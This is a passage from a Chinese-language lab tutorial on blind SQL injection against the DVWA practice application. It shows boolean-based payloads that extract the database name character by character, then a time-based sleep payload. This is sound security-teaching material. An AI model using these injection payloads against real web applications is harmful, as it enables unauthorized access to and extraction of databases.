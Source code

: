 ![SQL Injection user id exists in the database](img/07e4c77903bc441c580390da06e055b7.png)

为了识别第二个字符，我们使用命令

`1' and substring(database(),2,1)='v';- -`

对于第三个，我们运行:

`1' and substring(database(),3,1)='w';- -`

而第四个是使用以下方法发现的:

`1' and substring(database(),4,1)='a';- -`

![SQL Injection user id database vuln app](img/1ab78c8269e42b2163495eeebba584b3.png)

最后，数据库的名称是“dvwa”

#### **基于时间的盲 SQL 注入**

这种类型的盲目 SQL 注入依赖于在易受攻击的应用程序响应攻击者使用时间延迟值定制的查询之前等待一段特定的时间。攻击的成功取决于应用程序发送响应所需的时间。为了检查基于时间的盲目 SQL 注入，我们使用以下命令:

`1' AND sleep(10);- -`

因为我们强制延迟了 10 秒钟的响应，所以当这段时间到期时，就会收到回复。
